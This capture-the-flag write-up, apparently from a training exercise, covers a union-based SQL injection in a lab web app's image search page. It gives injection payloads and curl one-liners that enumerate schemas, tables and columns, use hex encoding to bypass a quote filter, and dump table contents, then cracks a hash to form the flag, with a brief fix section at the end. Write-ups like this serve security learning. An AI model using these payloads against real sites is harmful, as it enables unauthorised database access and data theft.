

# Union Based SQL Injection in search image page

## 📖 Vulnerability Explanation
The server uses the URL parameter _id_ to query the database. The input is provided by the user and not sanitized, leading to a potential abuse where SQL statements can be injected to retrieve information (SQLi). 

## ⚙️ Exploitation Process
The methodology we used in this exercise first focuses on gaining situational awareness of the database, and then proceeds to retrieve information.

We decided to present two different methods: one using the input box on the webpage, and the other using ```curl``` in the terminal.

---

**1. Dump databases**

```
0 UNION SELECT 1,schema_name FROM information_schema.schemata; -- -
```

```
curl -s 'http://localhost:9090/index.php?page=searchimg&id=0+UNION+SELECT+1%2Cschema_name+FROM+information_schema.schemata%3B+--+-&Submit=Submit#' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.*<br\/>Title: //' | sed 's/<br\/>.*//'
```

---

**2. Dump tables**

```
0 UNION SELECT table_name,table_schema FROM information_schema.tables; -- -
```

```
curl -s 'http://localhost:9090/index.php?page=searchimg&id=0+UNION+SELECT+table_name%2Ctable_schema+FROM+information_schema.tables%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Title: /\n[+] Database   : /' | sed 's/Url : /[-] Table name : /' | grep -v table
```

---

**3. Dump columns of table _list\_images_**

We use the hexadecimal representation of the string _"list_images"_ to bypass the blocked characters, which are single and double quotes.

```
echo -n 'list_images' | xxd -p
```

```
0 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573; -- -
```

```
curl -s 'http://localhost:9090/index.php?page=searchimg&id=0+UNION+SELECT+1%2Ccolumn_name+FROM+information_schema.columns+WHERE+table_name%3D0x6c6973745f696d61676573%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Title: //' | grep -v 'Url : '
```

---

**4. Read columns _title_ and _comment_**

```
0 UNION SELECT title,comment FROM Member_images.list_images; -- -
```

```
curl -s 'http://localhost:9090/index.php?page=searchimg&id=0+UNION+SELECT+title%2Ccomment+FROM+Member_images.list_images%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Title: /\n[+] Title   : /' | sed 's/Url : /[-] Comment : /' | grep -v table
```

---

**5. Crack the hash and craft the flag using the steps provided**

To craft the flag, we must follow the instructions found on the last step: _```If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46```_



```
echo -n 'albatroz' | sha256sum
```

## 🧰 Additional Resources Used
We used ```https://crackstation.net/``` to crack the hash. This page doesn't really _crack_ the hash you provide, but performs a lookup on pre-computed hashes instead.

## 🔧 Fix
To protect against SQLi, it is crutial to always sanitize the users' input before querying the database. It is also possible to use an ORM or library to query the database and avoid manual sanitization.

## ☝️🤓 Advanced explanation
While these SQLi allowed us to read most of the data present in the database, we could not read everything. After trying to read the database _Member\_Brute\_Force_, we got an error as the account used by the app on these pages did not have access to it.